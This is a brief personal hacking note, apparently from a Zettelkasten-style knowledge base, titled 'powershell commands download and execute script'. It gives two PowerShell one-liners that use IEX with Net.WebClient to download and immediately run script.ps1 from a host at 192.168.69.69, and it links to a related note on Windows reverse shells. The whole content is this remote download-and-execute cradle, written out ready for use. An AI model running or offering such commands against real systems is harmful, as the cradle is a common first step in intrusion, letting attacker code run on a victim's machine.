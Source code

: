 # powershell commands download and execute script
```
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://192.168.69.69/script.ps1')"
IEX(New-Object Net.WebClient).downloadString('http://192.168.69.69/script.ps1')
```

# Related
- [20221003151101](/zet/20221003151101/README.md) powershell commands
- ~/kb/hacking/windows/windows-reverse-shell.md

Tags:
    #assorted #hacking #windows #windows
